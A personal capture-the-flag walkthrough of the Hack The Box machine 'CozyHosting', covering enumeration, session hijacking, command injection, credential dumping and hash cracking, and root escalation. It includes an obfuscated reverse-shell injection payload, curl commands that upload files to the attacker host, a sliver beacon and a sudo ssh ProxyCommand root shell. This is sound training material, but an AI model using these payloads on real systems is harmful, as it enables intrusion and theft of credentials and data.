





30 points available
Discovery
Nmap
sudo nmap -A -sV -sT -v -O -T4 -p0- 10.10.11.230
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_ 256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)- Add cozyhosting.htb to /etc/hosts to enter site
Fuzzing
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/megabeast.txt --hc 404 http://cozyhosting.htb/FUZZ
000000567: 200 0 L 1 W 634 Ch "actuator"
000000721: 401 0 L 1 W 97 Ch "admin"
000015208: 500 0 L 1 W 73 Ch "error"
000021422: 200 284 L 745 W 12706 Ch "index"
000024650: 200 96 L 196 W 4431 Ch "login"
000001629: 204 0 L 0 W 0 Ch "logout"- http://cozyhosting.htb/actuator/mappings
- contains endpoints
- some interesting ones:
POST /executessh→ RCE?GET /actuator/sessions→ usernames? / Session takeover?8A96F9F79F202437379AFDEE261F260A "kanderson" DD8AE41AE2AA4917CC2A31ACEF4BB37E "kanderson" 0BF94BB8AE0693F03AF49FAB69B4A0AB "UNAUTHORIZED" C924792FEFBA13AA901D71B2C973EEBF "UNAUTHORIZED" 16B0787DA2E9B5E0F365111FC4DDA48C "UNAUTHORIZED" C58F4460E1369D2A07764589EE451D47 "UNAUTHORIZED"

nikto
The anti-clickjacking X-Frame-Options header is not present
The X-Content-Type-Options header is not set
nginx/1.18.0 appears to be outdated (current is at least 1.20.1).interesting requests
GET / HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=36B677CC1A8EF49A58B9C6E144D3AF0A
Upgrade-Insecure-Requests: 1→ cookie has session id from /actuator/sessions endpoint?
POST /login HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/login
Cookie: JSESSIONID=36B677CC1A8EF49A58B9C6E144D3AF0A
Upgrade-Insecure-Requests: 1
username=a&password=aHijacking session
http://cozyhosting.htb/actuator/sessions → active session id’s are regulary updated
requests

POST /login HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/login?error
Cookie: JSESSIONID=D12F27AF7A34C5CAA2788F8A2DD36917
Upgrade-Insecure-Requests: 1
username=test&password=testGET /login?error HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://cozyhosting.htb/login?error
Connection: close
Cookie: JSESSIONID=D12F27AF7A34C5CAA2788F8A2DD36917
Upgrade-Insecure-Requests: 1GET /admin HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://cozyhosting.htb/login?error
Connection: close
Cookie: JSESSIONID=D12F27AF7A34C5CAA2788F8A2DD36917
Upgrade-Insecure-Requests: 1→ replaced KSESSION ID’s 3 times in a row using just intercept
→ or just go to the /admin endpoint directly

SSH command execution using headers
When not providing a username we can see the ssh command is being executed:
request
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin?error=Username%20can%27t%20contain%20whitespaces!
Cookie: JSESSIONID=24A29B783B66729848726634B57591E5
Upgrade-Insecure-Requests: 1
host=10.10.11.230&username=response
HTTP/1.1 302
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 27 Sep 2023 13:46:54 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface] [-b bind_address] [-c cipher_spec] [-D [bind_address:]port] [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11] [-i identity_file] [-J [user@]host[:port]] [-L address] [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port] [-Q query_option] [-R address] [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]] destination [command [argument ...]]
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY- we are dealing with a bash environment
- we could try manipulating the username= option to make it execute something else
- testing how we can escape the ssh command
ssh ;cat test;@10.10.11.230using
‘;’in Linux seems to work - Creating payload using the hacktricks source
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.38/8081 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g' echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0ek9DODRNRGd4SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h - Try establishing reverse shell
nc -nvlp 8081POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin?error=Username%20can%27t%20contain%20whitespaces!
Cookie: JSESSIONID=24A29B783B66729848726634B57591E5
Upgrade-Insecure-Requests: 1
host=127.0.0.1&username=;echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0ek9DODRNRGd4SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h;
priv escalation
the current user has no permissions to write or access any user folders
- Enumerating simple stuff
- env vars
app@cozyhosting:/$ (env || set) 2>/dev/null SHELL=/bin/sh PWD=/ LOGNAME=app SYSTEMD_EXEC_PID=1059 HOME=/home/app LANG=en_US.UTF-8 INVOCATION_ID=faedfedb240e44548f41dd963632fc43 USER=app SHLVL=2 JOURNAL_STREAM=8:21340 PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin _=/usr/bin/env OLDPWD=/usr - kernel version
app@cozyhosting:/$ cat /proc/version Linux version 5.15.0-82-generic (buildd@lcy02-amd64-027) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #91-Ubuntu SMP Mon Aug 14 14:14:14 UTC 2023 app@cozyhosting:/$ uname -a Linux cozyhosting 5.15.0-82-generic #91-Ubuntu SMP Mon Aug 14 14:14:14 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
- env vars
- Looking for a folder with write permissions so we can get a better shell with sliver / upload binaries
find . -type d -exec test -w {} \; -print→ the /tmp directory works 🙂 - Run linpeas
curl http://10.10.14.38:88/linpeas_linux_amd64 -o lp chmod +x lp ./lp -a > linpeas_output.txt curl -F "file=@linpeas_output.txt" http://10.10.14.38:88Interesting output
# exploits [+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET) Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/ https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/ Exposure: probable Tags: [ ubuntu=(22.04) ]{kernel:5.15.0-27-generic} Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN) [+] [CVE-2022-2586] nft_object UAF Details: https://www.openwall.com/lists/oss-security/2022/08/29/5 Exposure: less probable Tags: ubuntu=(20.04){kernel:5.12.13} Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1 Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN) [+] [CVE-2022-0847] DirtyPipe Details: https://dirtypipe.cm4all.com/ Exposure: less probable Tags: ubuntu=(20.04|21.04),debian=11 Download URL: https://haxx.in/files/dirtypipez.c [+] [CVE-2021-4034] PwnKit Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt Exposure: less probable Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main [+] [CVE-2021-3156] sudo Baron Samedit Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt Exposure: less probable Tags: mint=19,ubuntu=18|20, debian=10 Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main [+] [CVE-2021-3156] sudo Baron Samedit 2 Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt Exposure: less probable Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10 Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main [+] [CVE-2021-22555] Netfilter heap out-of-bounds write Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html Exposure: less probable Tags: ubuntu=20.04{kernel:5.8.0-*} Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c Comments: ip_tables kernel module must be loaded [+] [CVE-2017-5618] setuid screen v4.5.0 LPE Details: https://seclists.org/oss-sec/2017/q1/184 Exposure: less probable Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154 # PPID https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes Proc 1071 with ppid 1 is run by user app but the ppid user is root app 1071 6.9 8.1 3635608 325760 ? Ssl 15:38 2:30 /usr/bin/java -jar cloudhosting-0.0.1.jar # Processes with credentials in memory (root req) https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory sshd: process found (dump creds from memory as root) # cron https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs SHELL=/bin/sh 17 * * * * root cd / && run-parts --report /etc/cron.hourly 25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily ) 47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly ) 52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) # ssh config /usr/share/openssh/sshd_config - (Optional) Trying sliver payload
generate beacon -b http://10.10.14.38:80 --os Linux curl http://10.10.14.38:88/SUBTLE_HONEY -o oioi chmod +x oioi ./oioi→ works, but not rlly useful
- (Optional) Get a more stable shell
python3 -c 'import pty; pty.spawn("/bin/bash")' CTRL+Z stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
Jar file
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
I think this is the most interesting so far:
Proc 1071 with ppid 1 is run by user app but the ppid user is root
app 1071 6.9 8.1 3635608 325760 ? Ssl 15:38 2:30 /usr/bin/java -jar cloudhosting-0.0.1.jar
curl -F "file=@cloudhosting-0.0.1.jar" http://10.10.14.38:88→ open in jadx
- Found in htb.cloudhosting > Scheduled > FakeUser
kanderson:MRdEQuv6~6P9
- Found in resources > BOOT-INF > Classes > application.properties
jdbc:postgresql://localhost:5432/cozyhostingpostgres:Vg&nvzAQ7XxR
Postgres db access
app@cozyhosting:/tmp$ psql -h localhost -U postgres cozyhosting\c cozyhosting
SELECT table_name
FROM information_schema.tables
WHERE table_schema = 'public';
table_name
------------
users
hosts
(2 rows)
SELECT * FROM public.users;
name | password | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | AdminCrack admin bcrypt hash
Asked chatGPT what the hash was → Bcrypt. And decrypted it with hashcat
hashcat -a 0 -m 3200 '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' /usr/share/wordlists/rockyou.txt -w 4 -O→ admin:manchesterunited
Access as user josh
ssh | GTFOBins - It can be used to break out from restricted environments by spawning an interactive system shell.
ssh josh@10.10.11.230- Check sudo permissions for the user john
josh@cozyhosting:/usr/share/keyrings$ sudo -l Matching Defaults entries for josh on localhost: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty User josh may run the following commands on localhost: (root) /usr/bin/ssh *→ seems like ssh is allowed as root
- Some oneliner exploit that can be found online abuses this
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x # cat root.txt 141f30f55bed0cf1c9165cd86f5dd90cflag → 141f30f55bed0cf1c9165cd86f5dd90c
